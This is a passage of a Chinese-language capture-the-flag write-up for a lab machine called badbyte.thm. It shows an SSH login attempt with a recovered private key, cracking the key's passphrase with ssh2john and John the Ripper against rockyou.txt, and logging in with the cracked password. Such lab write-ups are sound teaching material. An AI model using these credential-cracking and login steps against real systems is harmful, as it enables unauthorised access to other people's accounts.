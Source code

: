 在 PGP 密钥对的这一半中似乎没有任何注释。

## 初始访问

然后，我继续尝试使用用户名`errorcauser`和私钥登录 SSH 服务，作为我的身份验证手段。我将尝试不使用密码登录:

```
**┌──(dna㉿deniers)-[~/badbyte]
└─$ ssh errorcauser@badbyte.thm -i ./id_rsa**

The authenticity of host 'badbyte.thm' can't be established.
ED25519 key fingerprint is SHA256:STfSircXTndy96+rP+DhdzypBYQbjn+n8C2IReY/Vl4.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? **yes**
Warning: Permanently added 'badbyte.thm' (ED25519) to the list of known hosts.
Enter passphrase for key './id_rsa': **[nothing]**
errorcauser@badbyte.thm's password: **[nothing]**
Permission denied, please try again.
errorcauser@badbyte.thm's password: **[nothing]**
Permission denied, please try again.
errorcauser@badbyte.thm's password: **[nothing]**
errorcauser@badbyte.thm: Permission denied (publickey,password).

**┌──(dna㉿deniers)-[~/badbyte]
└─$**
```

这似乎不起作用。所以我会尝试使用开膛手约翰( [Openwall，n.d.](https://www.openwall.com/john/) )根据`id_rsa`文件破解密码。我将首先使用`ssh2john.py`脚本( [Kholia 和 Forcier，n.d.](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py) )将`id_rsa`文件转换成开膛手约翰可以解析的格式，然后使用实际的开膛手约翰工具对转换后的内容执行字典攻击:

```
**┌──(dna㉿deniers)-[~/badbyte]
└─$ python3 ssh2john.py id_rsa > ssh_hash.txt**

**┌──(dna㉿deniers)-[~/badbyte]
└─$ john ssh_hash.txt --wordlist=./rockyou.txt** 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
[redacted]          (id_rsa)     
1g 0:00:00:00 DONE [redacted] 4.166g/s 2575p/s 2575c/s 2575C/s [redacted]
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

**┌──(dna㉿deniers)-[~/badbyte]
└─$**
```

开膛手约翰算出了密码是 cupcake，我试图通过 SSH 和私钥登录系统——这次是用破解的密码:

```
**┌──(dna㉿deniers)-[~/badbyte]
└─$ ssh errorcauser@badbyte.thm -i ./id_rsa**
Enter passphrase for key './id_rsa': 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-139-generic x86_64)

* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage
System information as of [redacted]
System load:  0.08                Processes:           96
  Usage of /:   23.2% of 18.57GB   Users logged in:     0
  Memory usage: 32%                IP address for eth0: [redacted]
  Swap usage:   0%
```